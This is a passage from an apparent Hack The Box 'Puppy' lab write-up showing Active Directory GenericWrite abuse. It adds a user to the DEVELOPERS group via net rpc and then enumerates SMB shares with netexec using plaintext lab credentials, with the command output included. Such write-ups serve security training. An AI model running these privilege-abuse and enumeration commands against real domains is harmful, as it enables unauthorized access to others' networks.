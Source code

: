 ![](images/2025-05-17_21-41_bloodhound_stephcooper_permissions.png)

## Access Control List (ACL) GenericWrite Abuse

We started the chain of exploitation by adding ourselves to the `DEVELOPERS` group abusing the `GenericWrite` permission of `levi.james`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ net rpc group addmem "DEVELOPERS" "levi.james" -U "PUPPY.HTB"/"levi.james"%'KingofAkron2025!' -S "10.129.184.6"
```

This made us capable of accessing the `SMB` share `DEV`.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Puppy/files]
└─$ netexec smb 10.129.184.6 -u 'levi.james' -p 'KingofAkron2025!' --shares                                        
SMB         10.129.184.6    445    DC               [*] Windows Server 2022 Build 20348 x64 (name:DC) (domain:PUPPY.HTB) (signing:True) (SMBv1:False)
SMB         10.129.184.6    445    DC               [+] PUPPY.HTB\levi.james:KingofAkron2025! 
SMB         10.129.184.6    445    DC               [*] Enumerated shares
SMB         10.129.184.6    445    DC               Share           Permissions     Remark
SMB         10.129.184.6    445    DC               -----           -----------     ------
SMB         10.129.184.6    445    DC               ADMIN$                          Remote Admin
SMB         10.129.184.6    445    DC               C$                              Default share
SMB         10.129.184.6    445    DC               DEV             READ            DEV-SHARE for PUPPY-DEVS
SMB         10.129.184.6    445    DC               IPC$            READ            Remote IPC
SMB         10.129.184.6    445    DC               NETLOGON        READ            Logon server share 
SMB         10.129.184.6    445    DC               SYSVOL          READ            Logon server share
```

